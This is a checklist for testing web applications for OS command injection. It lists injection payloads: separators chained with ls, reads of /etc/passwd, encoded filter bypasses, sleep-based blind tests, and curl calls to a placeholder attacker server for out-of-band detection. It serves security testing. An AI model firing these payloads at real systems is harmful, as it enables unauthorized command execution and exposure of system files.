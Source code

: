 1.  **INITIAL INFORMATION GATHERING** 
    - [ ] Identify and map all endpoints that accept user input which could be used to execute system commands.
    - [ ] Review source code (if available) to understand how user inputs are handled.
    - [ ] Check for user inputs in URLs, form fields, headers, and request bodies that interact with the operating system.

2.  **BASIC COMMAND INJECTION TESTING**
    1. Test with simple command injection payloads to identify vulnerabilities:
        - [ ] `; ls`
        - [ ] `| ls`
        - [ ] `&& ls`
        - [ ] `|| ls`
        - [ ] `$(ls)`

3.  **ADVANCED COMMAND INJECTION TECHNIQUES**
    1. Test for bypassing input validation and filtering:
        - [ ] `; cat /etc/passwd`
        - [ ] `| cat /etc/passwd`
        - [ ] `&& cat /etc/passwd`
        - [ ] `|| cat /etc/passwd`
        - [ ] `$(cat /etc/passwd)`
    2. Use encoding to bypass filters:
        - [ ] URL encoding: `%3B%20ls`
        - [ ] Double URL encoding: `%253B%2520ls`
        - [ ] Base64 encoding: `Y2F0IC9ldGMvcGFzc3dk`
    3. Test for time delay to identify blind command injection:
        - [ ] `; sleep 10`
        - [ ] `| sleep 10`
        - [ ] `&& sleep 10`
        - [ ] `|| sleep 10`
        - [ ] `$(sleep 10)`

4.  **OUT-OF-BAND (OOB) COMMAND INJECTION**
    1. Set up an OOB endpoint to detect blind command injection:
        - [ ] `; curl http://[YOUR_SERVER]/ping`
        - [ ] `| curl http://[YOUR_SERVER]/ping`
        - [ ] `&& curl http://[YOUR_SERVER]/ping`
        - [ ] `|| curl http://[YOUR_SERVER]/ping`
        - [ ] `$(curl http://[YOUR_SERVER]/ping)`
        - [ ] `\curl http://[YOUR_SERVER]/ping`
5.  **COMMAND INJECTION IN DIFFERENT CONTEXTS**
    1. Test command injection in file paths:
        - [ ] `/path/to/file; ls`
        - [ ] `/path/to/file| ls`
        - [ ] `/path/to/file&& ls`
    2. Test command injection in environment variables:
        - [ ] `ENV_VAR="value; ls"`
        - [ ] `ENV_VAR="value| ls"`
        - [ ] `ENV_VAR="value&& ls"`
    3. Test command injection in configuration files:
        - [ ] `config_option=value; ls`
        - [ ] `config_option=value| ls`
        - [ ] `config_option=value&& ls`
        
6.  **ERROR HANDLING AND RESPONSE ANALYSIS**
    - [ ] Analyze server responses for clues about command injection vulnerabilities.
    - [ ] Look for error messages that disclose command execution results or system information.
    - [ ] Verify if application stack traces are exposed in responses.